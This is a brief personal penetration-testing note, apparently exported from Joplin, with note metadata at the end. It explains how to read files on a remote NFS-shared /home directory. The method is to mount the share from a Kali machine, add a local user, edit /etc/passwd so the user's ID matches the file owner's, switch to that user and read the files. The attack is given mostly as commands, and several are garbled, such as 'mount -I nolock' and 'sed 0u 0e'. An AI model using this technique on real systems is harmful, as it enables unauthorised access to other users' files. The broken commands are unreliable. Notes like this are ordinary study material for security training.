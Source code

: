 NFS with different user permission

This case -- /home is being shared, and can be accessed by mounting it on our kali machine.

To do so:

> mkdir home;
> 
> sudo mount -I nolock $IP/home ~/home/;

<ins>**<ins>-nolock will disable file locking</ins>**</ins>

If we try to view files within that mounted folder, there won't be any permissions granted

What we can do is to replicate the user by creating a user with the same UUID, su to that user and access the file

> Sudo adduser pwn; sudo sed 0u 0e 's/$Created\_UUID/$permission\_UUID/g' /etc/passwd; su pwn; cat $file

id: e478cc461e0b415897ffe201f14beb44
parent_id: 27b595c9aae647aba407fed241a81f90
created_time: 2022-01-20T08:57:33.861Z
updated_time: 2022-01-20T08:58:33.417Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-20T08:57:33.861Z
user_updated_time: 2022-01-20T08:58:33.417Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1